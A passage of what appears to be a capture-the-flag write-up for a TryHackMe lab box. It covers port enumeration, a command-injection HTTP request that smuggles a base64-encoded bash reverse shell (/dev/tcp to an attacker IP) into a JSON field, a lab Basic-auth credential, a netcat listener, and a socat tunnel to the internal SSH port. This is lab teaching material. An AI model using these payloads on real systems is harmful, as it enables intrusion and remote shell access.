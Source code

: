![writeup.enumeration.steps.8.1](Box%20Write-ups/thm.yotf/screenshot07.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp    http          Apache httpd 2.4.29
139/tcp   netbios-ssn   Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   netbios-ssn   Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
```
#### Users
``` {.python .numberLines}
ssh: rascal, fox
webapp: rascal
```

\newpage
## Phase #2: Exploitation
1\. We further leverage the command execution vulnerability to get interactive access on the target machine. For this, we first start a local netcat listener and use a bash reverse shell:  
``` {.python .numberLines}
nc -nlvp 4433

POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI2LjE4OS80NDMzIDA+JjE=' | base64 -d | bash \n"}

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/thm.yotf/screenshot08.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/thm.yotf/screenshot08a.png)  

2\. We get a shell with `www-data` privileges and use it to probe further. From the listing of open ports, we find that the ssh port `22/tcp` is open and accepting connection only on the localhost interface. We can use `socat` to tunnel this port to probe it from our attacking system:  
``` {.python .numberLines}
socat tcp-listen:1337,reuseaddr,fork tcp:localhost:22

```

